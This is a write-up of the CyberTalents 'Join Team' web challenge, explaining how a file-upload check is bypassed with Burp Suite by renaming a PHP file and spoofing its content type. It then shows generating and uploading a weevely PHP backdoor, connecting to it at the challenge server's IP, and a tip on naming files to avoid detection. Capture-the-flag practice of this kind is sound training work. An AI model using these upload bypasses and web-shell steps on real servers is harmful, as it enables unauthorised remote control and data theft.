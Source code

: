 # CyberTalents
 Cybertalents web security challenges write-ups
 Web-Security: 
 
 Challenge name: Join Team
      First we check "Inspect Elements" nothing suspicious everything looks normal on home page
        Then Check the Home button , About button and our great button but nothing unusual 
        But in the WorkForUs they ask us to submit the CV .
        Lets fireup BurpSuite to intercept the traffic before sending anything and connecting our proxy to the web.
        First i tried sending a .txt file but we ended up with "Only PDF Document Allowed", Which means there is a secuirty measures on the type of file uploaded.
        So i create a .php file and wrote in it:
        <?php
        echo 'test'
        ?>
        Using the BurpSuite we were able to manipulate the file type, So i changed the filename from .pdf to .php and in the content-type to "application/pdf" and forwarded it
        In BurpSuite in the proxy section go to HTTP history and press on the last request we forwarded it we can see in the Response part we can see that there is a location code data/filename.pdf>
        By changing the URL from 18.192.3.151/join-team/index.php?jobs to 18.192.3.151/join-team/index.php?data/filename.pdf we get a string "test" wich means we are able to execute PHP code through the pdf file sent.
        Lets create a Backdoor to be able to get a connection between the web server side and our side.
        Here i suggest using weevely to use a written php backdoor by writing  in the terminal "weevely generate pass /home/kali/Desktop/backdoor.php" to generate a backdoor file. PS:I don't recommend using backoor as a name, maybe there is policies that stops suspicious words.
        Now go back to the browser and upload backdoor.php to the browser and in burpsuite manipulate the request by changing the filename from backdoor.pdf to backdoor.php and in the content-type to "application/pdf" and forwarded it.
        You should get a "Your cv has been uploaded succesfully in backdoor.pdf"
        In the URL delete the word"jobs" and add data/backdoor.pdf in this way we activate our backdoor. Now go back to the terminal and  type"weevely  http"://18.192.3.151/join-team/index.php?data/backdoor.pdf pass"
        type ls you should get response if you got communication error re-generate another backdoor file and re-upload it to the web and re-type what you did before in the terminal, Dont forget to change the name of the file.
        type cat index.php, The flag is located on the second line of this file (Submit the flag without the ')
